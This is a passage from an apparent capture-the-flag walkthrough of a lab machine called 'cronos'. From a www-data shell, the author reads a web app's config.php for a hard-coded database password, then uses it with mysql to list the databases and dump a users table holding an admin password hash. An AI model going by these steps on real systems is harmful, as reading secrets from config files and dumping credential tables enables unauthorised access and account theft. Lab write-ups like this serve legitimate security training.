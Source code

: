 First, let's check the webroot directory.

```bash
www-data@cronos:/var/www/admin$ ls
ls
config.php  index.php  logout.php  session.php  welcome.php


www-data@cronos:/var/www/admin$ cat config.php
cat config.php
<?php
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>
```

The DB credential for `admin` is `kEjdbRigfBHUREiNSDs`

```bash
www-data@cronos:/var/www/admin$ mysql -u admin -pkEjdbRigfBHUREiNSDs -e "show databases;"
<min$ mysql -u admin -pkEjdbRigfBHUREiNSDs -e "showdatabases;"               
mysql: [Warning] Using a password on the command line interface can be insecure.
+--------------------+
| Database           |
+--------------------+
| information_schema |
| admin              |
+--------------------+


www-data@cronos:/var/www/admin$ mysql -u admin -pkEjdbRigfBHUREiNSDs -e "use admin; show tables;"
<min$ mysql -u admin -pkEjdbRigfBHUREiNSDs -e "use dmin; show tables;"       
mysql: [Warning] Using a password on the command line interface can be insecure.
+-----------------+
| Tables_in_admin |
+-----------------+
| users           |
+-----------------+


www-data@cronos:/var/www/admin$ mysql -u admin -pkEjdbRigfBHUREiNSDs -e "use admin; select * from users;"
<bRigfBHUREiNSDs -e "use admin; select * from users"                         
mysql: [Warning] Using a password on the command line interface can be insecure.
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 4f5fffa7b2340178a716e3832451e058 |
+----+----------+----------------------------------+
```
